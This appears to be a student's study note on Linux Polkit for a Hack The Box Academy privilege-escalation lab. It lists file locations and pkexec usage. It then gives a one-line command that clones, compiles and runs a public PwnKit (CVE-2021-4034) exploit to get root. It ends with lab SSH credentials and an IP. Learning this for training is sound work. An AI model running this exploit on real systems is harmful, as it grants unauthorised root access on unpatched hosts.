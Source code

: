 # Polkit

> [!info] What is Polkit?
> It is a Linux service that allows user software and system components to communicate with each other if the user software is allowed to communicate as well.
> Custom rules can be placed in /etc/polkit-1/localauthority/50-local.d with the file extension .pkla
> Local authority rules can be used to grant or revoke user and group permissions

## TOC
- [File Groups](file-groups)
- [pkexec pkaction pkcheck](pkexec-pkaction-pkcheck)
- [Privilege Escalation](privilege-escalation)

### File Groups

Polkit works with two file groups:
1 actions/policies located @ 
``` python
(/usr/share/polkit-1/actions)
```
2 rules located @
```python
/usr/share/polkit-1/rules.d
```



### pkexec pkaction pkcheck

`pkexec` - runs a program with the rights of another user or with root rights
`pkaction` - can be used to display actions
`pkcheck` - this can be used to check if a process is authorized for a specific action

Example
```
pkexec -u <user> <command>
pkexec -u root id

uid=0(root) gid=0(root) groups=0(root)
```

###  Privilege Escalation

pkexec memory corruption vulnerability via [CVE-2021-4034](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034) aka [Pwnkit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)

Exploit

```python
git clone https://github.com/arthepsy/CVE-2021-4034.git; cd CVE-2021-4034; gcc cve-2021-4034-poc.c -o poc; ./poc; id
```

## Questions

Username
```python
htb-student
```

Password
```python
HTB_@cademy_stdnt!
```

IP
```python
10.129.205.113
```

SSH
```python
ssh htb-student@10.129.205.113
```
